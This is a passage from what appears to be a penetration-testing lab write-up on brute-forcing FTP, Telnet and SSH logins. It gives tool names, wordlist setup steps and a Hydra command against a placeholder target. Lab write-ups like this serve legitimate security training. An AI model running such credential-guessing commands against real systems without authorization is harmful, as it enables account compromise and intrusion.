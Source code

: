 

## ✅ Task 2: Brute Force Attacks

### 2.1 🚪 FTP, TELNET, and SSH

### Objective:
Perform brute force attacks against the FTP, TELNET, and SSH services to gain unauthorized access.


### 🔧 Tools Used:

- **Hydra**
- **Medusa**
- **NetExec**


But,for this lab I used Hydra and Medusa

#### Before perform brute force attacks, make sure you have your own 
📝 Wordlists:

- A **list of usernames** (`userlist.txt`)
- A **list of passwords** (`mypass.txt`)

You a=can make this lists as your own lists using
 📜 Command:


 ```bash
  nano userlist.txt
```
and

 ```bash
  nano mypass.txt
```
 or

 
> You can use default ones from Kali:
```bash
/usr/share/wordlists/rockyou.txt
```


- For **🔓 FTP**:

📜 Command:

  ```bash
  hydra -L userlist.txt -P mypass.txt ftp://<TARGET_IP> -t 4 -vV
  ```
